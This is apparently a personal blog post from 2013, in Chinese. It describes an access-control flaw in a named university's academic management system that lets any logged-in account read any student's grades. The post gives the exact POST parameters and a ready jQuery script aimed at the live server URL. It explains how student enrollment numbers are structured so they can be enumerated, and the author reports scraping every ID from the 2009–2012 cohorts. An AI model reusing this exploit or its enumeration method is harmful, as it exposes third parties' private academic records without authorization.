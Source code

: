 ```yaml
---
title: 青果之恋教务管理系统查询所有学生成绩
tags:
  - JQuery
  - 青果之恋
url: 1678.html
id: 1678
categories:
  - 编程随想
date: 2013-02-17 21:17:49
---
```


       做一个让Chrome能正常登陆学校教务管理系统的Chrome扩展，偶然发现在正常登陆一个帐号的情况下，提交以下数据可以查询任何在校生的成绩

"SJ=1&btn\_search=%BC%EC%CB%F7&SelXNXQ=0&txt\_xm=20090000xxxx&zfx_flag=0&zxf=0"

其中12位的txt_xm就是入学时的编号，记得每学年交学费的时候都是通过该号码。2009代表了入学的年份，接下来四位一般都是零，再接下来的四位数就视该学年的学生数目而定了..其它参数则对应的是查询某学年的成绩或其它各种选项

$.ajax({
        type: "POST",
        url: "http://jx.hncu.net:8083/xscj/Stu\_MyScore\_rpt.aspx",
        data:  'SJ=1&btn\_search=%BC%EC%CB%F7&SelXNXQ=0&txt\_xm=这十二位自己定&zfx_flag=0&zxf=0',
        timeout: 10000,
        dataType: "text",
        success: function (html) {
            var wnd=window.open("", "newwin", "height=700, width=1000,toolbar=no,menubar=no");
            wnd.document.write(html.indexOf('绩点')>-1 ? html : '<h1>我勒个去，没有找到相关数据！请确定您没有穿越？</h1>');
        }
});

执行即可查到指定学生的成绩

然后蛋疼用Python遍历了学校09级到12级的所有学生的那个编号及对应的学号  ····接下来搞个成绩查询助手   ![](http://img.baidu.com/hi/jx2/j_0028.gif)